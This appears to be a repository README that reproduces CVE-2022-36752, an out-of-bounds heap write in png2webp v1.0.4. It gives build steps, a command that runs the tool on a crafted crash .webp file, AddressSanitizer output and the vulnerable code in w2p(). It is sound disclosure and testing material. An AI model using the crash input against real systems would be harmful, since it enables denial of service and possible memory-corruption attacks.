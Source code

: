 # Description for CVE-2022-36752

png2webp v1.0.4 was discovered to contain an out-of-bounds write via the function w2p. This vulnerability is exploitable via a crafted webp file when reversing the format back to png.

# Reproduction

To reproduce the vulnerability, download the vulnerable version of png2webp (v1.0.4) and compile the project:

```
git clone https://github.com/landfillbaby/png2webp.git
cd png2webp
git checkout 0c7119109cde91127a263bf0af252e5e730f7fba
git submodule update --init --depth 1
./configure && make
```

Once the project has been compiled, we can point png2webp towards our malicious .webp file included in this repository (CVE-2022-36752_crash.webp):

```
./png2web -r CVE-2022-36752_crash.webp
```

The previous command will produce a crash and return an error message:

```
corrupted size vs. prev_size
```

To gain a better understanding of where the crash is taking place, lets recompile the project with address sanitizer (ASAN) by adding -fsanitize=address to the CFLAGS variable in the Makefile. We also want the compiler to store symbol table information in the executable (-g flag) to help us determine which line of code produced the crash:

```
ifeq (${uname_m},x86_64)
CFLAGS ?= -O3 -Wall -Wextra -pipe -flto=auto -DNDEBUG -march=x86-64-v2 -fsanitize=address -g
```

Next we will clean any stale files and recompile the project:

```
make clean
make
```

ASAN reports an invalid write of size 12 in the program, confirming the existance of an out-of-bounds write vulnerability:

```
==222970==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000000010 at pc 0x563e3ec4ee6a bp 0x7fff3a7b04d0 sp 0x7fff3a7b04c8
WRITE of size 12 at 0x602000000010 thread T0
    #0 0x563e3ec4ee69  (/dev/shm/png2webp/png2webp+0x23e69)
    #1 0x563e3ec3df34  (/dev/shm/png2webp/png2webp+0x12f34)
    #2 0x7fcfe4967189 in __libc_start_call_main ../sysdeps/nptl/libc_start_call_main.h:58
    #3 0x7fcfe4967244 in __libc_start_main_impl ../csu/libc-start.c:381
    #4 0x563e3ec3e3f0  (/dev/shm/png2webp/png2webp+0x133f0)

0x602000000017 is located 0 bytes to the right of 7-byte region [0x602000000010,0x602000000017)
allocated by thread T0 here:
    #0 0x7fcfe4cae7cf in __interceptor_malloc ../../../../src/libsanitizer/asan/asan_malloc_linux.cpp:145
    #1 0x563e3ec46052  (/dev/shm/png2webp/png2webp+0x1b052)

SUMMARY: AddressSanitizer: heap-buffer-overflow (/dev/shm/png2webp/png2webp+0x23e69) 
Shadow bytes around the buggy address:
  0x0c047fff7fb0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fc0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fd0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7fe0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x0c047fff7ff0: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
=>0x0c047fff8000: fa fa[07]fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8010: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8020: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8030: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8040: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x0c047fff8050: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07 
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
  Shadow gap:              cc
==222970==ABORTING

```

# Vulnerable code in the function w2p():
```
  if(l < 12
#ifdef SSIZE_MAX
    || l - 12 > SSIZE_MAX
#endif
  ) {
    PF("ERROR reading %s: %s", IP, k[2]);
    goto w2p_close;
  }
```

# References
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-36752
* https://cwe.mitre.org/data/definitions/787.html
